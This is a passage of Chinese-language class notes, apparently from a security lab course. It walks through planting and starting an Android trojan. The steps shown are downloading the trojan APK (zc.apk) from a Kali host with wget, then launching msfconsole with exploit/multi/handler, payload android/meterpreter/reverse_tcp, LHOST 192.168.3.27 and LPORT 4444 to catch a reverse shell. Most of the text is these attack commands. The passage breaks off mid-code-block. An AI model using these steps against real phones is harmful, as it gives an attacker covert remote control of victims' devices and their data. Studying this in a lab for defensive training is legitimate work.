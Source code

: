 ```
* 使用ls命令查看当前盘符下的文件

  ```
  ls
  ```

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802135704959.png" alt="image-20230802135704959" style="zoom:80%;" />

* 进入sdcard，只有在sdcard中才有存储权限

  ```
  cd sdcard
  ```

* 下载kali中的zc.akp文件

  ```
  wget IP/文件
  ```

  ![image-20230802140100753](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802140100753.png)

  (第一次失败是因为kali未开启80服务)

* 进入文件系统，发现其中已经有了zc.apk文件

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802140418794.png" alt="image-20230802140418794" style="zoom: 50%;" />

## 木马启动

* msfconsole启动

  ```
  msfconsole
  ```

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230801104159747.png" alt="image-20230801104159747" style="zoom:67%;" />

* 使用后门模块

  ```
  use exploit/multi/handler
  ```

* 攻击载荷

  ```
  set payload android/meterpreter/reverse_tcp
  ```

* 设置客户端IP（Kali）

  ```
  set LHOST 192.168.3.27
  ```

* 设置客户端监听端口

  ```
  set LPORT 4444
  ```

  ```